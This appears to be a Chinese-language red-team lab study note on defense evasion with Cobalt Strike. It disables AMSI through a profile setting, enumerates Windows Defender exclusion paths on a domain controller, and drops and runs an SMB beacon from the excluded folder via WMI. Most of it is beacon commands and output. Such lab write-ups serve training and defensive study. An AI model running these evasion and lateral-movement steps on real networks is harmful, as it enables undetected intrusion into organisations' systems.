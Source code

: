 ```

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1661566440533.png)

# AmsiScanBuffer

此章主要讲述如何绕过AMSI，课本材料提供了很多复现的技术细节

但是应用到CS上，只要在配置文件设置三行代码：
```
post-ex {
    set amsi_disable "true";
}
```

配置前：

![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1661676676715.png)


配置后，已经可以在dc-2使用Rubeus.exe：

1661729759471.png

# Exclusions

枚举目标主机的exlusions规则

这里教材说可以本地，也可以远程枚举，但是我只在远程枚举成功，本地枚举beacon会断掉
```
beacon> remote-exec winrm dc-2 Get-MpPreference | select Exclusion*
[*] Tasked beacon to run 'Get-MpPreference | select Exclusion*' on dc-2 via WinRM
[+] host called home, sent: 295 bytes
[+] received output:


ExclusionExtension : 
ExclusionIpAddress : 
ExclusionPath      : {C:\Shares\software}
ExclusionProcess   : 
PSComputerName     : dc-2
RunspaceId         : 3e755110-a816-4d15-ade2-ab157e05e7bf


[+] received output:
#< CLIXML

[+] received output:
```

1661730058127.png


上传beacon-smb.exe,使用wmi触发成功。教材也有说使用winrm触发，但是我会报错
```
beacon> cd \\dc-2\c$\shares\software
[*] cd \\dc-2\c$\shares\software
[+] host called home, sent: 33 bytes
beacon> upload C:\Payloads\beacon-smb.exe
[*] Tasked beacon to upload C:\Payloads\beacon-smb.exe as beacon-smb.exe
[+] host called home, sent: 311834 bytes
beacon> remote-exec wmi dc-2 C:\Shares\Software\beacon-smb.exe
[*] Tasked beacon to run 'C:\Shares\Software\beacon-smb.exe' on dc-2 via WMI
[+] host called home, sent: 4400 bytes
[+] received output:
CoInitializeSecurity already called. Thread token (if there is one) may not get used
[+] received output: